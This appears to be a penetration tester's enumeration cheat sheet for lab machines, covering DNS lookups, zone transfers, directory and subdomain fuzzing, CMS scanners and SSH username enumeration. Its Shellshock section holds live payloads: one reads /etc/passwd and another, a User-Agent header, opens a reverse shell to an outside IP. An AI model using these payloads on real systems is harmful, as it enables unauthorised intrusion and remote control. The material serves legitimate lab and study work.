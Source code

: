 # Enumeration

<details>

<summary>Reverse Lookup IP addresses to hostnames</summary>

### Using nslookup

```bash
nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
;; communications error to 10.10.10.13#53: timed out
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```

### Obtain IPs of machines that are up:

* save as `ips.txt`

```bash
nmap -sn --min-rate 5000 10.11.1.0/24 | grep "Nmap scan report for" | cut -d " " -f 5 > ips.txt
```

### Find possible DNS servers

```bash
nmap -p 53 --min-rate 5000 -iL ips.txt -oG dns_scan_results.txt
```

```bash
cat dns_scan_results.txt | grep "Ports: 53/open/" | cut -d " " -f 2 > dns_servers.txt
```

### Using DNSrecon to reverse lookup using different DNS servers:

```bash
for server in $(cat dns_servers.txt); do echo Using DNS server $server;dnsrecon -r 10.11.1.0/24 -n $server; done
```

### Reverse DNS lookup for one IP:

#### DNSRecon

```bash
dnsrecon -r 10.11.1.0/24 -n 10.11.1.220
```

#### Host command

```bash
host 10.11.1.116 10.11.1.220 
```

* Query dns server at 10.11.1.220 about the hostname of 10.11.1.116

</details>

<details>

<summary>Sitemap files</summary>

* /robots.txt

- /.htaccess

* /.htpasswd

- /sitemap.xml

</details>

<details>

<summary>Try /cgi-bin/ folder (Shellshock)</summary>

* If Status Code 200 --> possibly [shellshock](https://github.com/b4keSn4ke/CVE-2014-6271)
* If Status Code 403 --> try to enumerate `.sh`, `.cgi` files under `/cgi-bin/` directory

```bash
dirsearch -u http://10.11.1.71/cgi-bin -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt
```

* Commands for Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh
```

* Burp Shellshock POST Request

```bash
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.2/8081 0>&1
Content-Length: 28

page=%2F&user=root&pass=root
```

* Nmap scan to search for shellshock

```bash
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```

broken by default, fix here: [https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s](https://www.youtube.com/watch?v=IBlTdguhgfY\&t=670s)

</details>

<details>

<summary>Dirsearch</summary>

<pre class="language-shell"><code class="lang-shell"><strong>dirsearch -u &#x3C;ip> -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
</strong></code></pre>

```shell
dirsearch -u 172.16.64.140/project --auth-type=basic --auth=YWRtaW46YWRtaW4= -X -x 400,500 -r -f -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
dirsearch -u http://192.168.206.156:8000/ipphone_files --cookie="PHPSESSID=cjetu00a7pouinp0oj9v01r6r0" -X -i 200,301 -r -f -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

</details>

<details>

<summary>Subdomain Enumeration</summary>

```bash
ffuf -u http://shoppy.htb/ -H "Host: FUZZ.shoppy.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw <no. of words for default page>
```

Can try wordlist`/usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt`

* Add any subdomain you've found into `/etc/hosts`

```
10.10.57.54 dev.cmess.htm
```

</details>

<details>

<summary>Wpscan</summary>

```bash
wpscan --url somewebsite.com --enumerate u,ap,at,cb,dbe
```

* add in `--disable-tls-checks` for HTTPS sites

</details>

<details>

<summary>Droopescan (Drupal)</summary>

```bash
droopescan scan drupal -u http://10.10.10.9/ -t 32
```

Drupal 7 <= 7.57

* [https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

</details>

<details>

<summary>Gobuster</summary>

```shell
gobuster dir -u <target site> -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200 -q
```

```shell
gobuster dir -x php,txt -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 200 -q
```

```
gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'
```

```bash
gobuster dir -k -u https://10.10.10.43 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -t 20
```

### Enumerate API (often followed by version number, v1, v2)

```bash
#api --> often followed by a version number
#	/api_name/v1
#	/api_name/v2
#pattern file:
#	{GOBUSTER}/v1
#	{GOBUSTER}/v2
gobuster dir -u http://192.168.50.16:5002 -w 
```

</details>

<details>

<summary>Testing file extensions for IIS servers</summary>

```
asp
aspx
config
php
```

</details>

<details>

<summary>Wfuzz</summary>

```bash
wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

```
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
```

#### Post req:

```bash
wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ" --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)
```

#### Fuzzing cookies:

```bash
wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ
```

</details>

<details>

<summary>Perform Zone Transfer</summary>

* Scan a domain, specifying the nameserver and performing a zone transfer

```bash
dnsrecon --domain example.com --name_server nameserver.example.com --type axfr
```

</details>

<details>

<summary>Dig</summary>

### Zone Transfer

```bash
dig @192.168.194.165 AXFR heist.offsec
```

```bash
dig www.example.com + short
```

* For IPv4

```bash
dig -4 www.example.com 
```

```bash
dig www.example.com MX
```

```bash
dig www.example.com NS
```

```bash
dig www.example.com> SOA
```

</details>

<details>

<summary>DNSEnum</summary>

```bash
dnsenum 192.168.194.165
```

</details>

<details>

<summary>SSH Username Enum</summary>

* Linux with OpenSSH < 7.7

[https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py](https://github.com/epi052/cve-2018-15473/blob/master/ssh-username-enum.py)

```
python ssh-username-enum.py <IP> -w <wordlist>
```

* Wordlist: [https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt](https://github.com/pentestmonkey/yaptest/blob/master/ssh-usernames.txt)

</details>
